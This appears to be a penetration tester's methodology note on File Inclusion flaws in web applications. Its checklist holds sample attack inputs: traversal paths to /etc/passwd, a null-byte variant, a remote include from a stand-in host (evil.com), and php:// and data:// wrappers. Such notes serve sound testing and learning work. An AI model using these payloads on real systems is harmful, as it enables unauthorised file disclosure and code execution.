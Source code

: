 ```yaml
---
title: "File Inclusion"
layout: notes
tags:
  - webapp
  - methodology
  - lfi
  - FI_parameters
  - FI_user-input
  - FI_http-headers
  - Co_sensitive-info-disclosure
  - Co_rce
  - Co_xss
---
```

## Summary

Applications routinely need to read and modify files on the fly for various functionality to exist. Because of this each application will have a potentially different way to reference files at their respective locations. Abusing the logic on the backend can allow an attacker to redirect an intended file read to an unintended file, leaking potentially sensitive data. Can be combined with SSRF - Server Side Request Forgery and Directory Traversal to further enumerate and leak data.

## Methodology

When looking for File Inclusion vulnerabilities ask/try the following:
- [ ] **What is the technology stack?**
	- [ ] **What is the server-side language (PHP, JSP, ASP)**
	- [ ] **What is the web-server (Apache, Nginx, IIS)**
- [ ] try to access local files (../../../etc/passwd)
	- [ ] test with common unix and windows paths
	- [ ] add null byte injection at the end (../../../etc/passwd%00)
- [ ] try to include remote files `https://evil.com/malicious.php`
- [ ] **Is user input being sanitized?**
	- [ ] try to determine rules and find a bypass
- [ ] try different protocols `php:// data://`

## Capabilities

Sensitive data exposure  
Remote code execution  
Cross-site Scripting  

## Found In

Parameters  
User Input  
HTTP Headers  
